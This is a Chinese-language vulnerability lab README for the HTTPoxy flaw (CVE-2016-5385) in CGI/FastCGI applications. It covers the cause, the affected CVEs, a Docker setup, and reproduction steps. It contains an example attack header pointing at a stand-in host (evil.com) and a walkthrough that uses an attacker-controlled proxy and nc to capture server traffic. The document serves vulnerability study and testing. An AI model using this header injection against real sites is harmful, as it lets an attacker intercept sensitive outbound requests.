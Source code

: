 # CGI HTTPoxy漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

![](1.png)

在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：

![](2.png)

如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

![](3.png)
